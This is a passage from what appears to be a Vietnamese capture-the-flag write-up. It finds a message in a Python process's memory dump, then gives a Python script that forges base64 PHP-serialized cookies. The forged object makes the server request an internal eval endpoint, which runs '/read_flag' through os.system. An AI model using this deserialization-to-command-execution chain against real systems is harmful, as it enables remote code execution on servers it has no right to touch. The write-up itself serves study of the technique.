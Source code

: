 Trong đó $PID là pid của proccess python đang được sử dụng

Khi dump ra thì ta tìm được msg đã print flush khi nãy

![image](./images/image6.png)

Ok thì bây giờ ta đã biết được file để eval nhung còn offset và length ???

Có thể thấy length là length của đoạn eval mình sẽ thực hiện nên mình không phải lo

Nhưng còn offset là một câu chuyện khác chủng ta sẽ tiếp tục phân tích

#### Vào internal/eval để thực hiện lệnh được lưu trong bộ nhớ trên bằng eval

Ok thì để eval thì ta cần một lệnh linux cụ thể là /read_flag. Ở đây mình sử dụng `/read_flag > ~/b` để lấy flag ra ngoài file b, ngoài ra có thể sử dụng webhook để lấy 

Ok thì như trên mình có thể sử dụng Object serialize để truyển vào lệnh để eval như sau

```python
import requests
import base64

cmd_to_run = 'exec(\'import os;os.system("/read_flag > ~/b")\')'

#debug
cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:36:"http://back-end:3000/internal/debug?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:3:"msg";s:'+str(len(cmd_to_run))+':"'+cmd_to_run+'";}}'

cmd = cmd.encode()

cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

```